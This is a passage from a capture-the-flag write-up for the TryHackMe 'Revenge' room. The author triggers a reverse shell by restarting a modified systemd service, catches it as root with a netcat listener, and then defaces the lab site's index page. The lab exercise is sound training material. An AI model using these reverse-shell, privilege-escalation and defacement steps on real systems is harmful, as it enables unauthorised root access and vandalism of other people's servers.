 I started a netcat listener on my machine, reloaded the configuration and restarted the service. 

```bash
server-admin@duckyinc:~$ sudo /bin/systemctl daemon-reload
server-admin@duckyinc:~$ sudo /bin/systemctl restart duckyinc.service
```

The server connected to my listener and I had root on the server. 

```bash
ehogue@kali:~/Kali/OnlineCTFs/TryHackMe/Revenge$ nc -lknvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.223.228 34820

whoami
root

ls
app.py
__pycache__
requirements.txt
static
templates

cd

ls

pwd
/root

ls -la
total 52
drwx------  7 root root 4096 Aug 28  2020 .
drwxr-xr-x 24 root root 4096 Aug  9  2020 ..
drwxr-xr-x  2 root root 4096 Aug 12  2020 .bash_completion.d
lrwxrwxrwx  1 root root    9 Aug 10  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root 3227 Aug 12  2020 .bashrc
drwx------  3 root root 4096 Aug  9  2020 .cache
drwx------  3 root root 4096 Aug  9  2020 .gnupg
drwxr-xr-x  5 root root 4096 Aug 12  2020 .local
-rw-------  1 root root  485 Aug 10  2020 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   66 Aug 10  2020 .selected_editor
drwx------  2 root root 4096 Aug  9  2020 .ssh
-rw-------  1 root root 7763 Aug 12  2020 .viminfo

S: 0 Window: 2 Pane: 1        
```

I was connected on the server. But there was no root flag. I looked around a little bit, then I remembered that the goal of the room was to deface the site without bringing it down. 

I edited the file `/var/www/duckyinc/templates/index.html` and added some text to it. 
